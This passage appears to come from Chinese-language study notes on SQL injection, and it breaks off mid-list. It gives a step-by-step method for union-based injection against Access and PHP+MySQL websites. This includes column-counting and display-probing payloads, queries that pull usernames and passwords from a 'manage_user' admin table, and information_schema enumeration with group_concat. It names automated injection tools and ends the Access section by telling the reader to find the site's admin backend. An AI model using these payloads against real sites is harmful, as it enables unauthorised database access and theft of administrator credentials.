     * 方法一

      * step1：首先，判断表中有多少字段，通过 `url order by 20` 先判断有没有20个，在慢慢缩小判断。
      * step2：假设字段总共有8个，在通过 `url union select 1,2,3,4,5,6,7,8 from manage_user`，此时看看页面中，这些数字哪些是显示出来的。
      * step3：把想要查的字段名 填到 对应的数字中（如：2，4是显示出来的），则 `url union select 1,username,3,password,5,6,7,8 from manage_user`

    * 方法二：
      有时候 `order by` 不能用的时候，可以直接上 `url union select 1,2,3,4,5,6,7,8 from manage_user`，这样既可以查字段数量，又可获知可以显示内容的字段。

5. 最后找网站后台

### php + mysql

* 搭站软件有：`phpstudy` `NPMserv 0.5.0`
* 针对此搭配的软件有：穿山甲（Pangolin），胡萝卜（Havij）

在 mysql 中，不用猜表名，字段名了，因为 5.0 以后的 mysql 中存在一个**元数据库** `information_schema` 其中，储存在用户在 mysql 中创建的所有其他数据库的信息。所以在对 PHP+MySQL 类网站进行注入时，主要针对该数据库进行操作。

information_schema 中比较重要的 数据表：

* schemata: 存放所有数据库的名字
* tables: 存放数据库中的数据表的名字
* columns: 存放所有数据表中所有字段的名字

```sql
# 只有 5.0 以上的 mysql 才行，因为有 元数据库
select table_name from information_schema.tables where table_schema="test";  # 查看 test 数据库中包含了哪些表
select column_name from information_schema.columns where table_name="hack";  # 查看 hack 数据表中包含哪些字段
```

1. 找 注入点

    这步和 access 数据库中的操作一样

2. 查 字段的数量

    * 因为 mysql 和 access 数据库不一样，mysql 可以不用 from表 就做 union 查询。所以，这里可以通过 `url union select 1,2,3,4,5` 进行查询，同时看看 哪个位置的字段有显示，就可以把 字段名放进去查。
    * 问题：有时候，不会输出 我们自己插入的语句，怎么办？如 `xxx.php?info_id=12 union select 1,2,3,4,5` 网页上只显示 union 前面的内容，这时候可通过 `xxx.php?info_id=12 and 1=2 union select 1,2,3,4,5` 进行把前面的语句屏蔽，显示我们插入的语句的效果！（`xxx.php?info_id=12 and 1=2 union select 1,version(),user(),4,5` 进行对数据库版本的查看，只有5.0以上的才行，因为5.0才有元数据库，才能进行下一步）

3. 查数据库的名字

    `xxx.php?info_id=12 and 1=2 union select 1,version(),user(),database(),5`

4. 查数据库包含哪些表

    `xxx.php?info_id=12 and 1=2 union select 1,2,table_name,4,5 from information_schema.tables where table_schema="换成上一步查到的数据库名字";`
    * 问题：有时候数据有很多个，但是网页只显示了一个，怎么办？用 `group_concat(字段名)` （该函数可以显示字段中的所有内容）
    `xxx.php?info_id=12 and 1=2 union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema="换成上一步查到的数据库名字";` 这样就可以把所有字段的记录显示到一块

5. 查看表中 包含 哪些字段
